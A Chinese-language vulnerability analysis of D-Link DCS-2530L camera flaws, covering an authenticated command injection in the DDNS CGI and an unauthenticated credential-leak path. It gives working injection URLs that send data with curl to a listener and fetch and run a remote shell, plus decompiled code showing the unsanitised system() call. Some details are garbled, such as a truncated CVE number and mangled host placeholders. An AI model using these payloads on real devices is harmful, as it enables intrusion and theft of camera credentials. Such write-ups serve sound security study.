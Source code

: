 >yk2eR0@HATLAB

## 官网公告
[
Authenticated Command Injection and Unauthenticated Credential Disclosure](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10180)
## 影响范围

DCS-2530L v1.05.05 & older

DCS-2670L v2.02 & older
## 测试环境

设备厂商：D-Link
设备型号：D-Link DCS-2530L
设备版本：1.04

## 关键程序提取
由于公布的两个漏洞CVE-2020-25079 + CVE-2020-2507刚好一个敏感信息泄露,一个命令执行,刚好凑一套RCE.尝试使用命令执行dump下来关键二进制程序来分析.
### payload
由于注入无回显,所以用curl的方法让被测机器向我们的服务端发送数据来显示注入结果:在本地``nc -lvp 11451``
首先通过
``http://2remoteip/cgi-bin/ddns_enc.cgi?enable=1&hostname=qq&interval=24&servername=www.dlinkddns.com&provider=custom&account=;ls >a;curl%20-X%20PUT%201local ip:localport%20-T%20a;``来找命令执行的根目录.本地接收到请求:
![e1b923f15ae329ef1e0445d0b21a9360.png](1[2].png)
通过``;curl  local ip:localport|sh``来弹出无回显远程shell;
找出关键二进制程序在``execs/``中,通过服务端``nc -lvp 11451 >aHttpMain``,注入点``;curl%20-X%20PUT%20121.36.223.38:12668%20-T%20/execs/aHttpMain;``将aHttpMain提取出来



### CVE-2020-25079漏洞分析


漏洞点在aHttpMain,在处理ddns设置请求的函数中:
```c
  if ( !strcasecmp(s1, "www.dlinkddns.com") || !strcasecmp(s1, "www.dyn.com") )
  {
    if ( a5 )
    {
      if ( !*(_BYTE *)a5 )
        v12 = "NULL";
    }
    else
    {
      v12 = "NULL";
    }
    if ( a6 )
    {
      if ( !*(_BYTE *)a6 )
        v13 = "NULL";
    }
    else
    {
      v13 = "NULL";
    }
    snprintf(
      s,
      0x100u,
      "ez-ipupdate -i %s -S %s -u %s:%s -h %s -d -P 600 -M %u -F \"%s\"",
      (const char *)a1,
      "dyndns",
      v12,
      v13,
      (const char *)a4,
      3600 * a7,
      (const char *)a2);
    return system(s);
  }
```
程序通过调用ez-ipupdate来实现ddns的配置,对用户输入仅做了是否为空的判断,而没有进行任何**安全性检查**.
snprintf处未做处理直接进行拼接,拼接值传入system执行.
当用户输入account值为``;ls;``时函数将会执行``ez-ipupdate -i 
interface -S Host Name  -u ;ls;:%s -h %s -d -P 600 -M %u -F \"%s\"``在执行ez-ipupdate后将执行ls命令,成功实现命令注入.

### CVE-2020-25078:

并为路径在中途未做相应的访问控制，直接在摄像头的根目录加上 /config/getuser?id=0 路径，从这里窃取代码出设备的账户名和密码。

